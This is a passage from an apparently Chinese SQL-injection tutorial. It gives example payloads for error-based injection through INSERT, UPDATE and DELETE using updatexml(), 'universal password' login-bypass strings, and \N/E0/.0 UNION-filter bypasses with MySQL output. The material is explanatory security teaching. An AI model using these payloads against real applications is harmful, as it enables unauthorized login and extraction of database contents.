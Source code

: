 
Insert注入

例句1：`insert into users (id, username, password) values (1,’user’,’passwd’);`

例句2：`insert into users (id, username, password)values (2, 'attacker' or updatexml(1,concat(0x7e,database()),0), ’passwd’);<br>`例句3：`insert into users (id, username, password) values (3,database(),’passwd');` `<br>`

Update注入

例句1：`update users set password = ‘password’ where id =2;`

例句2：`update users set password=’password' or updatexml(1,concat(0x7e,database()),0) WHERE id=2;`

Delete注入

例句1：`delete from users where id=2;`

例句2：`delete from users where id=2 or updatexml(1,concat(0x7e,database()),0);`

## 0x06 desc相关注入及其他

`{DESCRIBE | DESC} tbl_name[col_name| wild]`  
DESCRIBE 或DESC查看表结构的详细信息。col\_name可以是一个列名或是一个包含SQL 通配符字符“%” 和“\_” 的字符串。

\`&nbsp;是&nbsp;MySQL&nbsp;的转义符，避免和 mysql 的本身的关键字冲突，只要你不在列名、表名中使用&nbsp;mysql&nbsp;的保留字或中文，就不需要转义。通常用来说明其中的内容是**数据库名、表名、字段名**，不是关键字。

万能密码

`Select * from admin where username = 'admin'#`

`Select * from admin where username =  ''+'' and password = ''+'';`仅限于0开头的字符串。

`Select * from admin where username =  'aaa'='' and password = 'aaa'=''`; 

\N,E0，.0绕过其实相当于NULL字符，参考：<a href="https://blog.csdn.net/wy_97/article/details/78085664" target="_blank" rel="noreferrer noopener" rel="nofollow" >https://blog.csdn.net/wy_97/article/details/78085664</a>

<pre class="wp-block-code"><code>mysql&gt; select*from sql_test where id =\Nunion select * from sql_test where id=2;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 2 | test | 234 |
+----+----------+----------+
1 row in set (0.00 sec)

mysql&gt; select*from sql_test where id =8E0union select * from sql_test where id=2;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  2 | test     | 234      |
+----+----------+----------+
1 row in set (0.00 sec)

mysql&gt; select*from sql_test where id =8.0union select * from sql_test where id=2;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  2 | test     | 234      |
+----+----------+----------+
1 row in set (0.06 sec)
————————————————</code></pre>
